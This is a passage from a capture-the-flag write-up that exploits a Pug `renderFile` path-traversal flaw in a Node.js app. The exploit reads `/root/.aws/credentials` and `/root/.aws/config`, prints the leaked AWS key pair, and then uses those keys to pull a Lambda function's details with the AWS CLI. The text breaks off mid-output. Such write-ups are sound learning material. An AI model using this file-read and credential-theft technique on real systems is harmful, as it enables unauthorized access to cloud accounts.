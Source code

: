 As hinted in the challenge description, this challenge is about SQL injection but with extra stpes. The SQL query crafting logic is done in AWS Lambda, which can only be accessed with the right credentials (`accessKeyId` and `region`). Of course we will need to get our hands on them.

Scanning through the other functions that handle routing we immediately find something suspicious:

```js
app.post('/api/submit-reminder', (req, res) => {
    const username = req.body.username;
    const reminder = req.body.reminder;
    const viewType = req.body.viewType;
    res.send(pug.renderFile(viewType, { username, reminder }));
});
```

`renderFile`, a function that deals with the server filesystem, can easily be tampered however we desire by crafting our own POST request (or more simply by editing the `viewType` input value). We can see what happens when we set it to where we would expect the AWS `credentials` file to be located at (`/root/.aws/credentials`):

```
Error: /root/.aws/credentials:1:1
  > 1| [default]
-------^
    2| aws_access_key_id = AKIAQYDFBGMSQ542KJ5Z
    3| aws_secret_access_key = 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
```

From this we have easily stolen `accessKeyId`. The `region` in turn can be found in the `config` file:

```
Error: /root/.aws/config:1:1
  > 1| [default]
-------^
    2| region = ap-southeast-1
    3| 
```

Using these, we can access the AWS Lambda console to extract the function source. To do this, we create our own `config` and `credentials` files and use the `get-function` command from AWS Lambda CLI:

```bash
$ mkdir ~/.aws
$ cd ~/.aws
$ touch credentials config
$ vim credentials
$ vim config
$ get-function --function-name craft_query
{
    "Configuration": {
        "FunctionName": "craft_query",
        "FunctionArn": "arn:aws:lambda:ap-southeast-1:051751498533:function:craft_query",
        "Runtime": "nodejs18.x",
        "Role": "arn:aws:iam::051751498533:role/tisc23_ctf_sg-prod20230727104447843500000001",
        "Handler": "index.handler",
        "CodeSize": 27109,
        "Description": "",
        "Timeout": 3,
        "MemorySize": 128,
        "LastModified": "2023-10-01T10:53:16.000+0000",
        "CodeSha256": "TUzKimM9d5GavjF4ZARnrmzYL1zUQO97X2Ld+X69lm0=",
        "Version": "$LATEST",
        "TracingConfig": {
            "Mode": "PassThrough"
        },
        "RevisionId": "12d812c6-2d4c-461c-b1a8-e61e5fc0863b",
        "State": "Active",
```